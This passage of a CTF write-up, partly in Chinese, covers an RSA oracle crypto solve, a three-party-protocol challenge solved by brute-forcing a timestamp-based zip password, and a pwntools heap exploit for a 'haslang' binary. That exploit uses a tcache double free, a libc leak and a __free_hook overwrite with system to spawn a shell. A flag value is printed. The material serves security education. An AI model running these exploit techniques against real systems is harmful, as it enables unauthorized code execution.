c = sh.recvline()
print(c)
c = c[19:-16].decode()
print(c)
c = int(c)

t = pow(2,e,n) * c % n
sh.recvuntil(b'>')
sh.sendline(b'2')
sh.sendline(str(t).encode())

m = sh.recvline()
print(m)
m = m[25:-48]

print(m)
print(long_to_bytes(int(m)//2))
# flag{9162ac59-fc92-4937-8fef-1669cddcaacf}
```

### Three

一个简单的三方安全协议，理论上知道两方的交互信息就能得到所有秘密，但是题目的形式偏向misc，很多表述不清楚，让人做的难受... 根据Save_Data()函数：

```python
    def Save_Data(self):
        #This is a default and optional function
        #Compress all data once rebuild the function's answer
        pwd=str(datetime.datetime.now())
        pass
```

猜测压缩包密码大约就是在出题的时间附近，根据压缩包时间掩码爆破一下得到C的密码：`2022-08-27 20:16:17.930813`. 利用A C的信息能够还原flag，思路见exp：

```python
from Crypto.Util.number import *

def Mul_loc_compute(x1, y1, x2, y2):
    mulx = x1 * y1 + x1 * y2 + x2 * y1
    return mulx

A0 = 28829613228241459
# 利用C中的掩码计算Y02
Y02 = 924422050091362838179268571917871 - 507036073644
A00 = 200254991086689
A01 = 200241552690281
A02 = A0 - A00 - A01
X00 = 200058430391504
X01 = 200401773940794
C02 = 924422050091355025836012334663090
# 这里需要去理解函数Mul_loc_compute，他接收的参数是Ai和Xi作为xi和yi
X02 = (C02 - A02 * X00) // (A02 + A00)
X0 = X00 + X01 + X02

B00 = 199957680670222
B01 = 200362172648094
B02 = Y02 - C02
B0 = B00 + B01 + B02
# 三段拼接
print(long_to_bytes(A0))
print(long_to_bytes(X0))
print(long_to_bytes(B0))
```


## pwn
### haslang
```python
from pwn import *
import binascii
# context.log_level = 'DEBUG'
context.terminal = ['tmux','sp','-h']
libc = ELF('./libc-2.27.so')
# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
payload = ""
def menu():
    sh.recvuntil(">>> ")
def add(name,size):
    menu()
    sh.sendline("(define " + name + " (alloc " + str(size) + "))")
def free(name):
    menu()
    sh.sendline( "(free " + name + ")")
def show(name):
    menu()
    sh.sendline( "(showChunk " + name + ")")
    data = sh.recvuntil(b"\x7f")
    return data
def edit(name,off,content):
    menu()
    sh.sendline( "(editChunk " + name + " " + str(off) + " " + str(content) + ")")
while(1):
    sh = process("./haslang")
    # sh = remote("172.35.3.90", "9999")

    add("a",0x50)
    add("b",0x50)
    free("b")
    edit("b",0xa,0x00)
    free("b")
    edit("b",0xa,0x00)
    free("b")

    add("d",0x410)
    add("e",0x410)
    free("d")
    data= show("d")
    if(len(data) != 5):
        sh.close()
        log.info(data)
        continue
    libc_base = u64((b"\xa0" + data).ljust(8,b'\x00')) - 0x3EBCA0
    free_hook = libc_base + libc.symbols['__free_hook']
    system = libc_base + libc.symbols['system']
    bin_sh = 0x2f62696e2f7368 
    log.success("libc_base = " + hex(libc_base))
    pause()
    gdb.attach(sh)

    edit("b",0x0,0xd0)
    for i in range(6):
        edit("d",i,(((free_hook) >> (8*i)) & 0xff))
    
    add("c",0x50)
    add("c",0x50)
    add("c",0x50)
    for i in range(6):
        edit("c",i,(((system) >> (8*i)) & 0xff))
    for i in range(8):
        edit("a",6-i,(((bin_sh) >> (8*i)) & 0xff))
    free("a")
    sh.interactive()
```